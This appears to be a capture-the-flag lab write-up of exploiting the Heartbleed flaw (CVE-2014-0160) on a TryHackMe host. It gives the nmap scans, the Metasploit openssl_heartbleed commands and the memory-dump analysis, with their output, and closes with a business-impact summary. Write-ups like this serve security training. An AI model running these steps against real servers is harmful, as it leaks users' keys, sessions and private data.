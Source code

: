 Objective
The objective of this project was to assess a remote host for the Heartbleed vulnerability (CVE-2014-0160), verify its presence, and exploit it to extract potentially sensitive information from server memory over the TLS protocol.

Execution
1. Identifying Open Services (Nmap)
nmap -sC -sV 52.215.184.158
Result:

plaintext
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4
111/tcp open  rpcbind  2-4
443/tcp open  ssl/http nginx 1.15.7

| ssl-cert: Subject: CN=localhost/O=TryHackMe/ST=London/C=UK
| Not valid before: 2019-02-16T10:41:14
| Not valid after:  2020-02-16T10:41:14
The TLS certificate was self-signed and expired. This raised suspicion that the OpenSSL version could be outdated. Target port: 443.

2. Heartbleed Vulnerability Check (Nmap Script)
nmap -p 443 --script ssl-heartbleed 52.215.184.158
Result:

plaintext
| ssl-heartbleed:
|   VULNERABLE:
|     OpenSSL 1.0.1 is vulnerable to Heartbleed
|     State: VULNERABLE
|     Risk factor: High
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
The target is confirmed vulnerable to Heartbleed.

3. Exploitation (Metasploit Framework)
msfconsole
use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS 52.215.184.158
run
Result:

plaintext
[+] Heartbeat response with leak, 44883 bytes
[+] Heartbeat data stored in /root/.msf4/loot/20250627224930_default_52.215.184.158_openssl.heartble_152689.bin
Memory successfully dumped and stored locally for analysis.

4. Analyzing Memory Dump

strings openssl.heartble_152689.bin | grep -i "THM{"
Result:

plaintext
user_name=hacker101&user_email=haxor@haxor.com&user_message=THM{sSl-Is-BaD}
Confidential data, including an application flag, was successfully extracted from TLS memory — confirming the vulnerability can be practically exploited to leak sensitive information.

Conclusion
I successfully identified and exploited CVE-2014-0160 on a remote server. The process included:

Detecting the vulnerability with nmap

Exploiting the flaw using Metasploit

Extracting live user-submitted data (including the flag THM{sSl-Is-BaD}) from memory

Business Impact
The presence of Heartbleed in a publicly exposed system poses a critical risk:

Potential leakage of TLS private keys

Session hijacking

Exposure of usernames, emails, and sensitive user input
